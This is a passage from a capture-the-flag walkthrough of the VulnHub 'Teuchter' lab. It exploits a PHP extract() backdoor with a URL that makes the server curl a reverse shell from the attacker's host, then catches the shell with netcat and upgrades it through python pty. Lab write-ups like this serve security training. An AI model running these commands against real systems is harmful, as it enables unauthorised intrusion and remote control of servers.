 ![Flicks Dirb](/assets/vulnhub/teuchter/flicks-dirb.png)

Good. We find a phpinfo.pht file. 

## Vulnerability Analysis

After some google researches I found [this site](https://blog.sucuri.net/2014/02/php-backdoors-hidden-with-clever-use-of-extract-function.html). This php backdoor is very interesting and it leverages the extract PHP function. 

## Exploitation

So I tested it uploading a php reverse shell using a trick :stuck_out_tongue_winking_eye: :

```plaintext
http://192.10.2.8/flicks/phpinfo.pht?ctime=system&atime=curl%20http://192.10.2.4/php-reverse-shell.php%20%3E%20php-reverse-shell.php
```
It worked :grinning:!! If we launch a netcat listener we'll receive a shell! Now to have a complete shell, we just have to spawn bash shell with python. Then we can see there are three users (cpgrogan,jkerr,proclaimers):

```plaintext
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.10.2.4] from (UNKNOWN) [192.10.2.8] 60538
Linux teuchter 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 15:22:31 up  2:37,  0 users,  load average: 0.00, 0.01, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@teuchter:/$ ls -l home
ls -l home
total 12
drwxr-xr-x 3 cpgrogan    cpgrogan    4096 Aug  3  2016 cpgrogan
drwxr-xr-x 3 jkerr       jkerr       4096 Nov  2  2016 jkerr
drwxr-xr-x 5 proclaimers proclaimers 4096 Sep 23  2016 proclaimers
```
